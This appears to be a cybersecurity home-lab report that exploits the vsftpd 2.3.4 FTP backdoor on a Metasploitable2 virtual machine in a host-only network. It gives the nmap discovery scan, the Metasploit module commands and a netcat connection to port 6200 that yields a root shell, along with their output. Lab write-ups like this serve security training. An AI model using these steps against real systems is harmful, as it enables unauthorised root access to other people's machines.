 #  Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

###  Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.



### Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |



###  Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)



### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan


nmap -sV 192.168.56.102 -p 21


**Result**:


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4


#### 2. Exploit with Metasploit

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run

**Result**:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

nc 192.168.56.102 6200
whoami


**Result**:
root

###  Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

###  Screenshots
* Nmap scan result: ![Nmap_Scan](../screenshots/nmap_scan_result.png)
* Metasploit output and Netcat shell with 'root': ![metasploit_output](../screenshots/exploit_result.png)
* Attacker network setup: ![attacker_net](../screenshots/attack-network-set.png)
* Kali ping target: ![kali-ping](../screenshots/kali_ping_target.png)
* Metasploitable network setup: ![metasploit_net](../screenshots/meta-network-set.png)


## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
